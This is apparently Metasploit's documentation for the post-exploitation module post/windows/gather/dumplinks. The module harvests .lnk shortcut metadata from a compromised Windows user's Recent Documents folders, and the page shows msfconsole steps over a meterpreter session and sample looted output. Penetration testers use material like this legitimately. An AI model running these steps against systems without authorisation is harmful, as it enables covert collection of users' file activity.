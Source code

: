 
## Vulnerable Application

  The dumplinks module is a modified port of Harlan Carvey's lslnk.pl Perl script. This module will parse .lnk files from a user's
  Recent Documents folder and Microsoft Office's Recent Documents folder, if present. Windows creates these link files automatically
  for many common file types. The .lnk files contain time stamps, file locations, including share names, volume serial numbers, and more.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/dumplinks```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

### SESSION

  The session to run the module on.


## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49160) at 2019-12-11 15:45:16 -0700

  msf > use post/windows/gather/dumplinks
  msf post(windows/gather/dumplinks) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dumplinks) > run

    [*] Running module against TEST-PC
    [*] Extracting lnk files for user TEST at C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\...
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk.
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\Network and Internet.lnk.
    [*] No Recent Office files found for user TEST. Nothing to do.
    [*] Post module execution completed
  ```

## Example of looted .lnk output

  ```
  [*] exec: cat /root/.msf4/loot/20191211154832_default_192.168.1.10_host.windows.lnk_124491.txt

  C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Access Time       = 2019-12-11 23:44:39 -0700
          Creation Date     = 2019-12-11 23:44:39 -0700
          Modification Time = 2019-12-11 23:44:39 -0700
  Contents of C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Flags:
                  Shell Item ID List exists.
                  Shortcut points to a file or directory.
                  The shortcut has a relative path string.
                  The shortcut has working directory.
          Attributes:
                  Target was modified since last backup.
          Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
          ShowWnd value(s):
                  SW_NORMAL.
                  SW_SHOWMAXIMIZED.
                  SW_SHOW.
                  SW_SHOWMINNOACTIVE.
                  SW_RESTORE.
        Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
        Shortcut file is on a local volume.
                  Volume Name =
                  Volume Type = Fixed
                  Volume SN   = 0x548EF20B
        Target path = C:\Users\TEST\Desktop\myPasswords.txt&..\..\..\..\..\Desktop\myPasswords.txtC:\Users\TEST\Desktop(
      ```
